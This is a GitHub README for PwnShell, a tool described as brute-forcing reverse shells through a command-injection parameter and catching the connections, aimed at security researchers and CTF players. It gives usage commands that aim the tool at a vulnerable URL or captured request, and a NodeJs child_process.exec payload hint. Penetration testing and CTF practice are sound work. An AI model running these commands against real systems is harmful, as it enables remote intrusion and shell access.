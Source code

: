 

# PwnShell

### PwnShell is a Powerfull RevShell Bruteforcer and Connection Handler built For Security Researchers and CTF Players!

![Alt text](https://github.com/zAbuQasem/PwnShell/blob/main/Screenshots/PwnShell.png)

<a href="#getting-started">Installation</a>
    </li>
    <li><a href="#usage">Usage</a></li>
    <li><a href="#license">License</a></li>
    <li><a href="#contact">Contact</a></li>
    <li><a href="#acknowledgements">Acknowledgements</a></li>
  </ol>
</details>

## Installation

1. Clone the repo
   ```sh
   git clone https://github.com/zAbuQasem/PwnShell
   ```
2. Install the dependencies
   ```sh
   cd PwnShell/
   pip install -r requirements.txt
   ```
3. Make the script executable 
   ```sh
   chmod +x pwnshell.py
   ```

<!-- USAGE EXAMPLES -->
## Usage
### Request-File Method [Recommended] 👇
```sh
./pwnshell.py -H [HOST IP] -f [REQUEST FILE]
```
#### Example:
-Copy from Burp or Network tab

-Replace the Vulnerable place in the parameter with 'PWNME'
```sh
GET /Vulnerable.php?cmd=PWNME HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```
### URL Method 👇
```sh
./pwnshell.py -H [HOST-IP] -u [TARGET-URL] -m [REQUEST-METHOD] -c [COOKIE (optional)] -k [HEADERS (optional)]

#Note: Cookie and headers must be in JSON format (if provided).
   ```
```sh
./pwnshell.py -H <HOST-IP> -u http/s://<TARGET>/Vulnerable.php?cmd=PWNME --method GET --cookie '{"key" : "value"}' 
```
#### Example:
-Replace the Vulnerable place in the parameter with 'PWNME'
```sh

./pwnshell.py -H 127.0.0.1 -u http://10.10.10.10/vulnerable.php?cmd=PWNME
```

### For NodeJs Payloads 
```sh
./pwnshell.py -H [HOST-IP] -n   
  
#To use only -> require('child_process').exec('Payload')
```
## Preview
### Using [Request-File Method]
![Alt text](https://github.com/zAbuQasem/PwnShell/blob/main/Screenshots/requestfile-demo.gif)

### Using [URL Method]
![Alt text](https://github.com/zAbuQasem/PwnShell/blob/main/Screenshots/url-demo.gif)
   


## License

Distributed under the MIT License. See `LICENSE` for more information.



<!-- CONTACT -->
## Contact

**Zeyad AbuQasem** - [LinkedIn](https://www.linkedin.com/in/zeyad-yahya-0985971b5/)

**Omar Albalouli** - [LinkedIn](https://www.linkedin.com/in/omar-albalouli/)

**Project Link**: [https://github.com/zAbuQasem/PwnShell](https://github.com/zAbuQasem/PwnShell)



<!-- ACKNOWLEDGEMENTS -->
## Acknowledgements
* [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
* [LinEnum](https://github.com/rebootuser/LinEnum)
* [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester)
* [Docker Privesc Script](https://github.com/flast101/docker-privesc)
* [SUID3NUM](https://github.com/Anon-Exploiter/SUID3NUM)
* [Burpee](https://github.com/xscorp/Burpee)

### TODO:
```sh
1- Add support for windows
2- Add more payloads and options
3- Add Post exploitation scripts for [linux/windows]
